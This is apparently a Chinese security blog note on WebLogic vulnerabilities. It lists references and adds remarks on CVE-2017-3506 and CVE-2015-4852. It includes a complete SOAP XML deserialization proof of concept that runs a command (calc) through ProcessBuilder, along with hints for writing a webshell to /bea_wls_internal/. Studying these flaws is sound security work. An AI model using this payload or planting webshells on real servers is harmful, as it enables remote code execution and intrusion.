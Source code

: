 ﻿---
title: WebLogic
categories:
- Network_Security
- Web
- Middleware
- WebLogic
tags:
- Network_Security
date: 2024-01-14 11:50:46
---

# WebLogic 中间件漏洞

## 1. CVE-2017-3506 XMLDecoder 反序列化漏洞（版本：12.1.3.0）

### 1.1 参考文献

1. 主要可以参考下面两篇：

    > https://blog.csdn.net/he_and/article/details/90582262
    >
    > https://zhuanlan.zhihu.com/p/32301092
    >
    > https://www.freebuf.com/articles/web/272835.html

### 1.2 补充

1. 通过 POST 发包，虽然页面会报错，但是结果依旧可以正常执行：
    ![image-20230518143539966](image-20230518143539966.png)

2. 弹出计算机的 PoC：
    ```xml
    <soapenv:Envelope
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Header>
            <work:WorkContext
                xmlns:work="http://bea.com/2004/06/soap/workarea/">
                <java>
                    <object class="java.lang.ProcessBuilder">
                        <array class="java.lang.String" length="3">
                            <void index="0">
                                <string>cmd</string>
                            </void>
                            <void index="1">
                                <string>/c</string>
                            </void>
                            <void index="2">
                                <string>calc</string>
                            </void>
                        </array>
                        <void method="start"/>
                    </object>
                </java>
            </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
    </soapenv:Envelope>
    ```

    注意缩进，可以使用 xml 格式工具进行格式规则化。

3. 写马的话，它需要文件路径：
    ![image-20230518145602040](image-20230518145602040.png)
    这个路径不知道怎么获得，如果能获得的话就能写入。写入之后通过访问：
    `/bea_wls_internal/马`即可。

4. 根据不同的版本，它的路径可能不同。如果是 10 版本，可能是 `/wls-wsat/`

## 2. CVE-2017-10271 和 CVE-2019-2725 todo

## 3. CVE-2015-4852 反序列化漏洞

### 3.1 参考

1. 链接如下：

    > https://bleke.top/posts/754158022/

2. 有关 T3 协议的：

    > https://www.cnblogs.com/nice0e3/p/14201884.html

### 3.2 补充

1. 本质上用的就是 CC1 链。应该是通过 t3 协议，将链发送到 7001 端口然后触发链。

